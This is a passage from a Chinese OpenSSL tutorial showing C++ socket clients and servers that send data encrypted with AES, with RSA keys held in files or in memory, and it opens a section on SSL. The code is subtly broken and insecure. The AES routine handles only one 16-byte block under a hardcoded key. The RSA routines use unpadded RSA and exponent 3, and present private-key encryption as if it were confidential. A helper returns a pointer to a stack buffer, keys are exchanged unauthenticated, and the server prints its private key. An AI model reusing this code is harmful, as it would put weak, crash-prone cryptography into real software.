在读者了解了加密算法的具体使用流程后，那么我们就可以使用这些加密算法对网络中的数据包进行加密处理，加密算法此处我们先采用`AES`算法，在网络通信中，只需要在发送数据之前对特定字符串进行加密处理，而在接收到数据后在使用相同的算法对数据进行恢复即可，读者如果有了套接字编程的基础，那么理解这段代码将变得很容易。

首先来看`服务端`代码片段，服务端在接受数据之前通过初始化`aes_key`变量设置一个加密密钥，在收到`recv()`数据后，直接调用`AES`函数实现解密，当解密完成后则直接输出原始字符串。

```c
#include <iostream>
#include <winsock2.h>
#include <WS2tcpip.h>
#include <openssl/err.h>
#include <openssl/evp.h>
#include <openssl/pem.h>
#include <openssl/aes.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib,"libssl_static.lib")
#pragma comment(lib,"libcrypto.lib")

// AES加密与解密
void AES(unsigned char* InBuff, unsigned char* OutBuff, unsigned char* key, char* Type)
{
    if (strcmp(Type, "encode") == 0)
    {
        AES_KEY AESEncryptKey;
        AES_set_encrypt_key(key, 256, &AESEncryptKey);
        AES_encrypt(InBuff, OutBuff, &AESEncryptKey);
    }
    else if (strcmp(Type, "decode") == 0)
    {
        AES_KEY AESDecryptKey;
        AES_set_decrypt_key(key, 256, &AESDecryptKey);
        AES_decrypt(InBuff, OutBuff, &AESDecryptKey);
    }
}

int main(int argc, char* argv[])
{
    WSADATA WSAData;
    WSAStartup(MAKEWORD(2, 0), &WSAData);

    SOCKET server_socket;
    server_socket = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in ServerAddr;
    ServerAddr.sin_family = AF_INET;
    ServerAddr.sin_port = htons(9999);
    ServerAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    bind(server_socket, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
    listen(server_socket, 10);

    SOCKET message_socket;
    if ((message_socket = accept(server_socket, (LPSOCKADDR)0, (int*)0)) != INVALID_SOCKET)
    {
        // 生成AES密钥
        unsigned char aes_key[32] = { 0x11,0x22,0x33,0x44 };

        // 使用RSA私钥加密AES的密钥,并发给客户端
        char* encrypt = nullptr;
        int encrypt_length = 0;

        // 接收客户端发来的AES数据,解密输出
        unsigned char Buffer[1024] = {0};
        unsigned char DecodeBuf[1024] = { 0 };

        recv(message_socket, (char *)Buffer, 1024, 0);
        std::cout << "接收加密长度: " << strlen((char *)Buffer) << std::endl;

        AES(Buffer, DecodeBuf, aes_key, (char*)"decode");
        std::cout << "解密内容: " << DecodeBuf << std::endl;

    }
    closesocket(server_socket);
    WSACleanup();
    
    system("pause");
    return 0;
}
```

接着是`客户端`代码，如下所示，首先设置`aes_key`密钥对，此处需要保持服务端与客户端密钥的一致性，在发送数据之前先调用`AES`算法对字符串进行加密处理，接着在调用`send`函数将加密后的字节序传输到服务器端。

```c
#include <iostream>
#include <winsock2.h>
#include <WS2tcpip.h>
#include <openssl/err.h>
#include <openssl/evp.h>
#include <openssl/pem.h>
#include <openssl/aes.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib,"libssl_static.lib")
#pragma comment(lib,"libcrypto.lib")

// AES 加密与解密
void AES(unsigned char* InBuff, unsigned char* OutBuff, unsigned char* key, char* Type)
{
    if (strcmp(Type, "encode") == 0)
    {
        AES_KEY AESEncryptKey;
        AES_set_encrypt_key(key, 256, &AESEncryptKey);
        AES_encrypt(InBuff, OutBuff, &AESEncryptKey);
    }
    else if (strcmp(Type, "decode") == 0)
    {
        AES_KEY AESDecryptKey;
        AES_set_decrypt_key(key, 256, &AESDecryptKey);
        AES_decrypt(InBuff, OutBuff, &AESDecryptKey);
    }
}

int main(int argc, char* argv[])
{
    WSADATA WSAData;
    WSAStartup(MAKEWORD(2, 0), &WSAData);
    SOCKET client_socket;
    client_socket = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in ClientAddr;
    ClientAddr.sin_family = AF_INET;
    ClientAddr.sin_port = htons(9999);
    ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");
    if (connect(client_socket, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr)) != SOCKET_ERROR)
    {
        unsigned char aes_key[32] = { 0x11,0x22,0x33,0x44 };

        // 使用AES加密数据,并发送给服务端
        char Buffer[1024] = "hello lyshark";
        unsigned char EncodeBuf[1024] = { 0 };

        AES((unsigned char *)Buffer, EncodeBuf, aes_key, (char*)"encode");
    std::cout << "发送加密长度: " << strlen((char *)EncodeBuf) << std::endl;
        send(client_socket, (char *)EncodeBuf, 1024, 0);

        closesocket(client_socket);
        WSACleanup();
    }
    
    system("pause");
    return 0;
}
```

读者可自行编译上方代码，首先运行服务端然后再运行客户端，至此数据会被加密传输到对端，并使用相同的方式解密，如下图所示；



### 20.5 套接字RSA加密传输

RSA算法同样可以用于加密传输，但此类加密算法虽然非常安全，但通常不会用于大量的数据传输，这是因为`RSA`算法加解密过程涉及大量的数学运算，尤其是模幂运算（即计算大数的幂模运算），这些运算对于计算机而言是十分耗时。

其次在`RSA`算法中，加密数据的长度不能超过密钥长度减去一定的填充长度。一般情况下，当RSA密钥长度为`1024`位时，可以加密长度为`128`字节，密钥长度为`2048`位时，可以加密长度为`245`字节；当密钥长度为`3072`位时，可以加密长度为`371`字节。因此，如果需要加密的数据长度超过了密钥长度允许的范围，可以采用分段加密的方法。我们可以将数据包切割为每个`128`个字符，这样就可以实现循环传输大量字符串。

在之前的章节中我们都是使用命令行的方式手动生成密钥对文件，其实在`OpenSSL`中我们完全可以使用`SDK`提供的函数自动生成对应的加密密钥对文件，如下一段代码中，`CreateRSAPEM`则是一个生成密钥对的函数，分别向该函数内传递一个公钥，私钥，以及数据长度，即可得到两个RSA文件。

```c
#include <iostream>
#include <string>
#include <Windows.h>
#include <openssl/err.h>
#include <openssl/rsa.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

// 生成RSA公钥和私钥文件
BOOL CreateRSAPEM(char *PublicKey, char *PrivateKey, int KeySize)
{
  BIO* bpub, *bpri;

  // 分别新建密钥对文件
  bpub = BIO_new_file(PublicKey, "w");
  bpri = BIO_new_file(PrivateKey, "w");

  if (!bpub || !bpri)
  {
    return FALSE;
  }

  RSA* pRSA = 0;

  // 生成密钥对KeySize指定密钥对长度1024
  pRSA = RSA_generate_key(KeySize, RSA_F4, NULL, NULL);
  if (pRSA != NULL)
  {
    // 写出公钥
    if (!PEM_write_bio_RSAPublicKey(bpub, pRSA))
    {
      return FALSE;
    }
    // 写出私钥
    if (!PEM_write_bio_RSAPrivateKey(bpri, pRSA, NULL, NULL, 0, NULL, NULL))
    {
      return FALSE;
    }
  }
  if (bpub)
  {
    BIO_free(bpub);
  }
  if (bpri)
  {
    BIO_free(bpri);
  }
  if (pRSA)
  {
    RSA_free(pRSA);
  }
  return TRUE;
}

int main(int argc, char* argv[])
{
  // 生成公钥与私钥
  BOOL flag = CreateRSAPEM("public.rsa","private.rsa",1024);

  if (flag == TRUE)
  {
    printf("[*] 已生成密钥对 \n");
  }

  system("pause");
  return 0;
}
```

代码运行后会分别在当前目录下生成`public.rsa`公钥及`private.rsa`私钥两个文件，如下图所示；



接着就是对加解密函数的封装实现，为了能更好的实现网络传输，如下是封装的四个函数，其中`public_rsa_encrypt`用于使用公钥对字符串进行加密，`private_rsa_decrypt`函数使用私钥对字符串进行解密，`private_rsa_encrypt`使用私钥加密，`public_rsa_decrypt`使用公钥解密，读者可根据自己的实际需求选择不同的加解密函数。

```c
// 使用公钥加密
BOOL public_rsa_encrypt(char* in, char* key_path, char* out)
{
  RSA* p_rsa;
  FILE* file;
  int rsa_len;
  if ((file = fopen(key_path, "r")) == NULL)
  {
    return FALSE;
  }
  if ((p_rsa = PEM_read_RSAPublicKey(file, NULL, NULL, NULL)) == NULL)
  {
    ERR_print_errors_fp(stdout);
    return FALSE;
  }
  rsa_len = RSA_size(p_rsa);
  if (RSA_public_encrypt(rsa_len, (unsigned char*)in, (unsigned char*)out, p_rsa, RSA_NO_PADDING) < 0)
  {
    return FALSE;
  }
  RSA_free(p_rsa);
  fclose(file);
  return TRUE;
}

// 使用私钥解密
BOOL private_rsa_decrypt(char* in, char* key_path, char* out)
{
  RSA* p_rsa;
  FILE* file;
  int rsa_len;
  if ((file = fopen(key_path, "r")) == NULL)
  {
    return FALSE;
  }
  if ((p_rsa = PEM_read_RSAPrivateKey(file, NULL, NULL, NULL)) == NULL)
  {
    ERR_print_errors_fp(stdout);
    return FALSE;
  }
  rsa_len = RSA_size(p_rsa);
  if (RSA_private_decrypt(rsa_len, (unsigned char*)in, (unsigned char*)out, p_rsa, RSA_NO_PADDING) < 0)
  {
    return FALSE;
  }
  RSA_free(p_rsa);
  fclose(file);
  return TRUE;
}

// 使用私钥加密
BOOL private_rsa_encrypt(char* in, char* key_path, char* out)
{
  RSA* p_rsa;
  FILE* file;
  int rsa_len;
  if ((file = fopen(key_path, "r")) == NULL)
  {
    return FALSE;
  }
  if ((p_rsa = PEM_read_RSAPrivateKey(file, NULL, NULL, NULL)) == NULL)
  {
    ERR_print_errors_fp(stdout);
    return FALSE;
  }
  rsa_len = RSA_size(p_rsa);
  if (RSA_private_encrypt(rsa_len, (unsigned char*)in, (unsigned char*)out, p_rsa, RSA_NO_PADDING) < 0)
  {
    return FALSE;
  }
  RSA_free(p_rsa);
  fclose(file);
  return TRUE;
}

// 使用公钥解密
BOOL public_rsa_decrypt(char* in, char* key_path, char* out)
{
  RSA* p_rsa;
  FILE* file;
  int rsa_len;
  if ((file = fopen(key_path, "r")) == NULL)
  {
    return FALSE;
  }
  if ((p_rsa = PEM_read_RSAPublicKey(file, NULL, NULL, NULL)) == NULL)
  {
    ERR_print_errors_fp(stdout);
    return FALSE;
  }
  rsa_len = RSA_size(p_rsa);
  if (RSA_public_decrypt(rsa_len, (unsigned char*)in, (unsigned char*)out, p_rsa, RSA_NO_PADDING) < 0)
  {
    return FALSE;
  }
  RSA_free(p_rsa);
  fclose(file);
  return TRUE;
}
```

当我们需要使用公钥加密时可以调用`public_rsa_encrypt`函数并依次传入加密前的字符串，公钥路径以及加密后的存储位置，当需要解密时则调用`private_rsa_decrypt`函数实现对加密字符串的解密操作，使用代码如下所示；

```c
int main(int argc, char* argv[])
{
  char text[128] = "hello lyshark";

  char public_key[] = "d://public.rsa";
  char encry[128] = { 0 };

  char private_key[] = "d://private.rsa";
  char decry[128] = { 0 };

  // 公钥加密
  if (public_rsa_encrypt(text, public_key, encry))
  {
    printf("[公钥加密] 加密长度: %d \n", strlen((char*)encry));
  }

  // 私钥解密
  if (private_rsa_decrypt(encry, private_key, decry))
  {
    printf("[私钥解密] 解密长度: %d \n", strlen((char*)decry));
  }

  printf("解密数据: %s \n", decry);

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码，即可看到加解密数据输出，如下图所示；



将这个流程反过来使用，使用私钥对数据进行加密，使用公钥实现解密，代码如下所示；

```c
int main(int argc, char* argv[])
{
  char text[128] = "hello lyshark";

  char public_key[] = "d://public.rsa";
  char encry[128] = { 0 };

  char private_key[] = "d://private.rsa";
  char decry[128] = { 0 };

  // 私钥加密
  if (private_rsa_encrypt(text, private_key, encry))
  {
    printf("[私钥加密] 加密长度: %d \n", strlen((char*)encry));
  }

  // 公钥解密
  if (public_rsa_decrypt(encry, public_key, decry))
  {
    printf("[公钥解密] 解密长度: %d \n", strlen((char*)decry));
  }

  printf("解密数据: %s \n", decry);

  system("pause");
  return 0;
}
```

私钥加密公钥解密，输出效果图如下所示；



当具备了上述加解密函数实现流程后，接下来就可以实现针对字符串的加密传输功能了，因为我们采用的是`1024`位的密钥所以每次只能传输`128`个字符，为了能传输大量字符则需要对字符进行分块，通过`CatSplit()`函数将字符串每`100`个字符切割一次，然后在客户端中先使用公钥对其进行加密，加密后分块每次传输一批次的加密数据即可，直到将完整的字符串发送完成为止。

```c
#include <iostream>
#include <winsock2.h>
#include <WS2tcpip.h>
#include <openssl/err.h>
#include <openssl/rsa.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

// 使用公钥加密
int public_rsa_encrypt(char* in, char* key_path, char* out)
{
  RSA* p_rsa;
  FILE* file;
  int rsa_len;
  if ((file = fopen(key_path, "r")) == NULL)
  {
    return 0;
  }
  if ((p_rsa = PEM_read_RSAPublicKey(file, NULL, NULL, NULL)) == NULL)
  {
    ERR_print_errors_fp(stdout);
    return 0;
  }
  rsa_len = RSA_size(p_rsa);
  if (RSA_public_encrypt(rsa_len, (unsigned char*)in, (unsigned char*)out, p_rsa, RSA_NO_PADDING) < 0)
  {
    return 0;
  }
  RSA_free(p_rsa);
  fclose(file);
  return 1;
}

// 实现对字符串指定位置进行剪切
char* Cat(char* buffer, int offset, int length)
{
  char Split[100] = { 0 };
  memset(Split, 0, 100);
  strncpy(Split, buffer + offset, length);
  return Split;
}

// 循环剪切字符串
int CatSplit(char* buf, char len, OUT char Split[][1024])
{
  int count = 0;

  // 每次剪切len大小
  for (int x = 0; x < strlen(buf); x += len)
  {
    char* ref = Cat(buf, x, len);
    strcpy(Split[count], ref);
    count += 1;
  }
  return count;
}

int main(int argc, char* argv[])
{
  char buf[8192] = "The National Aeronautics and Space Administration is America.";

  WSADATA WSAData;
  
  // 初始化套接字库
  if (WSAStartup(MAKEWORD(2, 0), &WSAData))
  {
    return 0;
  }

  // 建立Socket套接字
  SOCKET client_socket;
  client_socket = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in ClientAddr;
  ClientAddr.sin_family = AF_INET;
  ClientAddr.sin_port = htons(9999);
  ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

  // 连接到服务端
  if (connect(client_socket, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr)) != SOCKET_ERROR)
  {
    char SplitArray[100][1024] = { 0 };

    // 切割字符串,每100个字符切割一次
    int count = CatSplit(buf, 100, SplitArray);

    // 发送发包次数
    std::cout << "发包次数: " << count << std::endl;
    char send_count[1024] = { 0 };
    sprintf(send_count, "%d", count);
    send(client_socket, send_count, strlen(send_count), 0);

    // 循环发送数据包
    for (int x = 0; x < count; x++)
    {
      std::cout << "原始数据包: " << SplitArray[x] << std::endl;

      char public_key[] = "d://public.rsa";
      char encry[1024] = { 0 };

      // 公钥加密
      if (public_rsa_encrypt(SplitArray[x], public_key, encry))
      {
        std::cout << "RSA 加密长度: " << strlen((char*)encry) << std::endl;
      }

      // 发送加密后的数据包
      send(client_socket, encry, 1024, 0);
      memset(buf, 0, sizeof(buf));
      memset(encry, 0, sizeof(encry));
    }
    closesocket(client_socket);
    WSACleanup();
  }

  system("pause");
  return 0;
}
```

而对于`服务端`代码实现部分则需要与客户端保持一致，服务端发送多少次客户端就接收多少次，首先服务端接收需要接收的数据包次数，并以此作为循环条件使用，通过不间断的循环接受数据包，并调用`private_rsa_decrypt`完成数据包的解密工作，最终将数据包拼接成`recv_message_all`并输出完整包。

```c
#include <iostream>
#include <winsock2.h>
#include <WS2tcpip.h>
#include <openssl/err.h>
#include <openssl/rsa.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

// 使用私钥解密
int private_rsa_decrypt(char* in, char* key_path, char* out)
{
  RSA* p_rsa;
  FILE* file;
  int rsa_len;
  if ((file = fopen(key_path, "r")) == NULL)
  {
    return 0;
  }
  if ((p_rsa = PEM_read_RSAPrivateKey(file, NULL, NULL, NULL)) == NULL)
  {
    ERR_print_errors_fp(stdout);
    return 0;
  }
  rsa_len = RSA_size(p_rsa);
  if (RSA_private_decrypt(rsa_len, (unsigned char*)in, (unsigned char*)out, p_rsa, RSA_NO_PADDING) < 0)
  {
    return 0;
  }
  RSA_free(p_rsa);
  fclose(file);
  return 1;
}

int main(int argc, char* argv[])
{
  WSADATA WSAData;

  // 初始化套接字库
  if (WSAStartup(MAKEWORD(2, 0), &WSAData))
  {
    return 0;
  }

  // 建立Socket套接字
  SOCKET server_socket;
  server_socket = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in ServerAddr;
  ServerAddr.sin_family = AF_INET;
  ServerAddr.sin_port = htons(9999);
  ServerAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

  // 绑定套接字
  bind(server_socket, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
  listen(server_socket, 10);

  SOCKET message_socket;

  // 接收并拼接数据
  char recv_message_all[8109] = { 0 };

  if ((message_socket = accept(server_socket, (LPSOCKADDR)0, (int*)0)) != INVALID_SOCKET)
  {
    // 接收需要获取的次数
    char recv_count[1024] = { 0 };
    recv(message_socket, recv_count, 1024, 0);
    std::cout << "收包次数: " << recv_count << std::endl;

    for (int x = 0; x < atoi(recv_count); x++)
    {
      // 接收加密后的数据包
      char buf[1024] = { 0 };
      recv(message_socket, buf, 1024, 0);

      // 私钥解密
      char private_key[] = "d://private.rsa";
      char decry[1024] = { 0 };

      // 调用解密函数
      if (private_rsa_decrypt(buf, private_key, decry))
      {
        std::cout << "RSA 解密长度: " << strlen((char*)decry) << std::endl;
      }

      std::cout << "RSA 解密数据包: " << decry << std::endl;

      // 组合数据包
      strcat(recv_message_all, decry);
      memset(buf, 0, sizeof(buf));
      memset(decry, 0, sizeof(decry));
    }
    closesocket(message_socket);

    // 输出最终数据包
    std::cout << std::endl;
    std::cout << "组合数据包: " << recv_message_all << std::endl;
  }
  closesocket(server_socket);
  WSACleanup();

  system("pause");
  return 0;
}
```

读者可自行填充客户端中的`buf`待发送字符串长度，填充好以后首先运行服务端，接着运行客户端，此时数据包将会被加密传输，在对端解密并输出如下图所示的结果；



### 20.6 套接字分发RSA公钥

通过上一节的学习读者应该能够更好的理解`RSA`加密算法在套接字传输中的使用技巧，但上述代码其实并不算完美的，因为我们的公钥和私钥都必须存储在本地文本中且公钥与私钥是固定的无法做到更好的保护效果，而一旦公钥与私钥泄密则整个传输流程都将会变得不安全，最好的保护效果是`RSA`密钥在每次通信时都进行变换，依次来实现随机密钥对的功能。

要实现这个效果我们就需要封装一套可以在内存中生成密钥对的函数，当需要传输数据时动态的生成密钥对，并将公钥部分通过套接字传输给对应的客户端，当客户端收到公钥后则可以使用该公钥进行通信，此时公钥与私钥全程不会存储为文件，这能极大的提升RSA算法的安全性。

要实现内存传输则首先需要封装实现`RSA`内存生成密钥对函数`GenerateMemoryRSAKeys`，以及`rsa_encrypt`加密函数，`rsa_decrypt`解密函数，读者可自行理解并使用如下代码片段。

```c
#include <iostream>
#include <Windows.h>
#include <openssl/err.h>
#include <openssl/evp.h>
#include <openssl/pem.h>
#include <openssl/rsa.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib,"libssl_static.lib")
#pragma comment(lib,"libcrypto.lib")

// 生成RSA需要的公钥和私钥
BOOL GenerateMemoryRSAKeys(char** private_key, char** public_key, int key_length)
{
  // 生成Key函数
  RSA* keypair = RSA_generate_key(key_length, 3, NULL, NULL);

  BIO* pri = BIO_new(BIO_s_mem());
  BIO* pub = BIO_new(BIO_s_mem());

  // 生成写出私钥
  if (!PEM_write_bio_RSAPrivateKey(pri, keypair, NULL, NULL, 0, NULL, NULL))
  {
    return FALSE;
  }
  
  // 生成写出公钥
  if (!PEM_write_bio_RSAPublicKey(pub, keypair))
  {
    return FALSE;
  }

  size_t pri_len = BIO_pending(pri);
  size_t pub_len = BIO_pending(pub);

  // 分配内存存储公钥与私钥
  char* prikey = (char*)malloc(pri_len + 1);
  char* pubkey = (char*)malloc(pub_len + 1);

  if (prikey == NULL && pubkey == NULL)
  {
    return FALSE;
  }

  // 将公钥与私钥读入到堆中
  BIO_read(pri, prikey, pri_len);
  BIO_read(pub, pubkey, pub_len);

  *private_key = prikey;
  *public_key = pubkey;

  RSA_free(keypair);
  BIO_free_all(pri);
  BIO_free_all(pub);
  return TRUE;
}

// RSA 加密函数
// type=public 使用公钥加密 type=private 使用私钥加密
BOOL rsa_encrypt(char* pub_key, char* msg, char** encrypt, int* encrypt_len, char *type)
{
  RSA* rsa = NULL;
  BIO* keybio = BIO_new_mem_buf((void*)pub_key, -1);
  char* err = (char*)malloc(130);

  if (keybio == NULL)
  {
    return FALSE;
  }

  // 如果是public则使用公钥加密/如果是private则使用私钥
  if (strcmp(type, "public") == 0)
  {
    // PEM_read_bio_RSA_PUBKEY(keybio, NULL, NULL, NULL)
    if (!(rsa = PEM_read_bio_RSAPublicKey(keybio, NULL, NULL, NULL)))
    {
      return FALSE;
    }
  }
  else if (strcmp(type, "private") == 0)
  {
    // 读取私钥文件
    if (!(rsa = PEM_read_bio_RSAPrivateKey(keybio, NULL, NULL, NULL)))
    {
      return FALSE;
    }
  }

  *encrypt_len = RSA_size(rsa);
  *encrypt = (char*)malloc(4096);

  if (strcmp(type, "public") == 0)
  {
    // 使用公钥加密
    if ((RSA_public_encrypt(strlen(msg) + 1, (unsigned char*)msg, (unsigned char*)*encrypt, rsa, RSA_PKCS1_PADDING)) == -1)
    {
      return FALSE;
    }
  }
  else if (strcmp(type, "private") == 0)
  {
    // 使用私钥加密
    if ((RSA_private_encrypt(strlen(msg) + 1, (unsigned char*)msg, (unsigned char*)*encrypt, rsa, RSA_PKCS1_PADDING)) == -1)
    {
      return FALSE;
    }
  }

  RSA_free(rsa);
  free(err);
  BIO_free_all(keybio);
  return TRUE;
}

// RSA 解密函数
// type=public 使用公钥解密 type=private 使用私钥解密
BOOL rsa_decrypt(char* pri_key, char* msg, char** decrypt, int encrypt_len, char *type)
{
  RSA* rsa = NULL;
  BIO* keybio = BIO_new_mem_buf(pri_key, -1);
  if (keybio == NULL)
  {
    return FALSE;
  }

  // 如果是public则使用公钥解密/如果是private则使用私钥
  if (strcmp(type, "public") == 0)
  {
    // 读入公钥文件
    if (!(rsa = PEM_read_bio_RSAPublicKey(keybio, NULL, NULL, NULL)))
    {
      return FALSE;
    }
  }
  else if (strcmp(type, "private") == 0)
  {
    // PEM_read_bio_RSA_PRIVATE(keybio, NULL, NULL, NULL)
    if (!(rsa = PEM_read_bio_RSAPrivateKey(keybio, NULL, NULL, NULL)))
    {
      return FALSE;
    }
  }

  char* err = (char*)malloc(130);
  *decrypt = (char*)malloc(encrypt_len);

  if (strcmp(type, "public") == 0)
  {
    // 使用公钥解密
    if (RSA_public_decrypt(encrypt_len, (unsigned char*)msg, (unsigned char*)*decrypt, rsa, RSA_PKCS1_PADDING) == -1)
    {
      return FALSE;
    }
  }
  else if (strcmp(type, "private") == 0)
  {
    // 私用私钥解密
    if (RSA_private_decrypt(encrypt_len, (unsigned char*)msg, (unsigned char*)*decrypt, rsa, RSA_PKCS1_PADDING) == -1)
    {
      return FALSE;
    }
  }

  RSA_free(rsa);
  free(err);
  BIO_free_all(keybio);
  return TRUE;
}

int main(int argc, char *argv)
{
  // 生成内存RSA密钥对
  char *private_key, *public_key;

  if (GenerateMemoryRSAKeys(&private_key, &public_key, 2048))
  {
    std::cout << "生成私钥: " << private_key << std::endl;
    std::cout << "生成公钥: " << public_key << std::endl;
  }

  char *encrypt, *decrypt;
  int encrypt_length;
  BOOL flag;

  // 公钥加密
  flag = rsa_encrypt(public_key, (char*)"hello lyshark", &encrypt, &encrypt_length, (char *)"public");
  if (flag == TRUE)
  {
    std::cout << "[公钥加密] 公钥加密字节: " << strlen(encrypt) << std::endl;
  }

  // 私钥解密
  flag = rsa_decrypt(private_key, encrypt, &decrypt, encrypt_length, (char *)"private");
  if (flag == TRUE)
  {
    std::cout << "[私钥解密] 私钥解密字节: " << decrypt << std::endl;
  }

  // 私钥加密
  flag = rsa_encrypt(private_key, (char*)"hello lyshark", &encrypt, &encrypt_length, (char*)"private");
  if (flag == TRUE)
  {
    std::cout << "[私钥加密] 私钥加密字节: " << strlen(encrypt) << std::endl;
  }

  // 公钥解密
  flag = rsa_decrypt(public_key, encrypt, &decrypt, encrypt_length, (char*)"public");
  if (flag == TRUE)
  {
    std::cout << "[公钥解密] 公钥解密字节: " << decrypt << std::endl;
  }

  system("pause");
  return 0;
}
```

读者可自行编译上述代码并运行，此时该代码将通过`GenerateMemoryRSAKeys`函数生成内存密钥对，并调用`rsa_encrypt`与`rsa_decrypt`两个函数实现对特定字符串的加解密功能，输出效果图如下；



有了上述内存生成`RSA`密钥对的方法，那么实现密钥对远程分发将变得很容易实现，首先我们来看客户端的实现方式，当客户端成功连接到了服务端则首先接收服务端传来的公钥，当收到服务器传来的公钥后通过使用`rsa_encrypt`函数并用公钥对待发送字符串进行加密，加密后调用`send`将加密数据发送给服务端，解密动作与加密保持一致，同样使用公钥进行解密，这段客户端代码如下所示；

```c
int main(int argc, char* argv[])
{
  char buf[256] = "The National Aeronautics and Space Administration";

  WSADATA WSAData;

  // 初始化套接字库
  if (WSAStartup(MAKEWORD(2, 0), &WSAData))
  {
    return 0;
  }

  // 创建套接字
  SOCKET client_socket;
  client_socket = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in ClientAddr;
  ClientAddr.sin_family = AF_INET;
  ClientAddr.sin_port = htons(9999);
  ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

  // 链接远程服务器
  if (connect(client_socket, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr)) != SOCKET_ERROR)
  {
    // 接收公钥
    char public_key[1024] = { 0 };
    int recv_key_flag = recv(client_socket, public_key, 1024, 0);
    if (recv_key_flag > 0)
    {
      std::cout << "接收公钥字节: " << public_key << std::endl;
    }

    // 公钥加密并发送数据
    char* encrypt = nullptr;
    int encrypt_length = 0;

    rsa_encrypt(public_key, buf, &encrypt, &encrypt_length, (char*)"public");
    std::cout << "[服务端发送] 公钥加密字节: " << strlen(encrypt) << std::endl;
    send(client_socket, encrypt, encrypt_length, 0);

    // 公钥接收并解密数据
    char* decrypt = nullptr;

    memset(buf, 0, 256);
    recv(client_socket, buf, 256, 0);
    rsa_decrypt(public_key, buf, &decrypt, 256, (char *)"public");
    std::cout << "[服务端返回] 原始数据包: " << decrypt << std::endl;

    closesocket(client_socket);
    WSACleanup();
  }

  system("pause");
  return 0;
}
```

与客户端相比，服务端在执行时只是多出来了执行`GenerateMemoryRSAKeys`函数的功能，通过执行该函数我们可以得到一个动态的内存加密密钥对，有了密钥对则我们就可以使用私钥对数据进行加密与解密操作，如下是服务端核心实现代码；

```c
int main(int argc, char* argv[])
{
  WSADATA WSAData;

  // 初始化套接字库
  if (WSAStartup(MAKEWORD(2, 0), &WSAData))
  {
    return 0;
  }

  // 创建套接字
  SOCKET server_socket;
  server_socket = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in ServerAddr;
  ServerAddr.sin_family = AF_INET;
  ServerAddr.sin_port = htons(9999);
  ServerAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

  // 绑定并侦听套接字
  bind(server_socket, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
  listen(server_socket, 10);

  // 生成RSA密钥对
  char* private_key, *public_key;
  BOOL gen_flag = GenerateMemoryRSAKeys(&private_key, &public_key, 2048);
  if (gen_flag == TRUE)
  {
    // std::cout << "生成私钥: " << private_key << std::endl;
    // std::cout << "生成公钥: " << public_key << std::endl;
    std::cout << "[+] 已生成RSA密钥对" << std::endl;
  }

  // 接收请求
  SOCKET message_socket;
  if ((message_socket = accept(server_socket, (LPSOCKADDR)0, (int*)0)) != INVALID_SOCKET)
  {
    // 发送公钥给客户端
    int put_key_flag = send(message_socket, public_key, strlen(public_key), 0);
    if (put_key_flag > 0)
    {
      std::cout << "本地私钥字节: " << private_key << std::endl;
      std::cout << "发送公钥字节: " << public_key << std::endl;
    }

    // 私钥解密: 接收并解密
    char recv_message[256] = { 0 };
    recv(message_socket, recv_message, 256, 0);

    char* decrypt = nullptr;
    rsa_decrypt(private_key, recv_message, &decrypt, 256, (char*)"private");
    std::cout << "[客户端返回] 原始数据包: " << decrypt << std::endl;

    // 私钥加密: 加密并发送
    char send_message[256] = "hello lyshark";
    char* encrypt = nullptr;
    int encrypt_length = 0;

    rsa_encrypt(private_key, send_message, &encrypt, &encrypt_length, (char*)"private");
    send(message_socket, encrypt, encrypt_length, 0);
  }
  closesocket(server_socket);
  WSACleanup();

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码，首先运行服务端接着运行客户端，读者则可看到如下图所示的输出信息；



### 20.7 套接字SSL加密传输

OpenSSL 中的 `SSL` 加密是通过 `SSL/TLS` 协议来实现的。`SSL/TLS` 是一种安全通信协议，可以保障通信双方之间的通信安全性和数据完整性。在 `SSL/TLS` 协议中，加密算法是其中最核心的组成部分之一，SSL可以使用各类加密算法进行密钥协商，一般来说会使用`RSA`等加密算法，使用`TLS`加密针对服务端来说则需要同时载入公钥与私钥文件，当传输被建立后客户端会自行下载公钥并与服务端完成握手，读者可将这个流程理解为上一章中`RSA`的分发密钥环节，只是`SSL`将这个过程简化了，当使用时无需关注传输密钥对的问题。

与RSA实现加密传输一致，使用SSL实现加密传输读者同样需要自行生成对应的密钥对，密钥对的生成可以使用如下命令实现；

 - 生成私钥: openssl genrsa -out privkey.pem 2048
 - 生成公钥: openssl req -new -x509 -key privkey.pem -out cacert.pem -days 1095

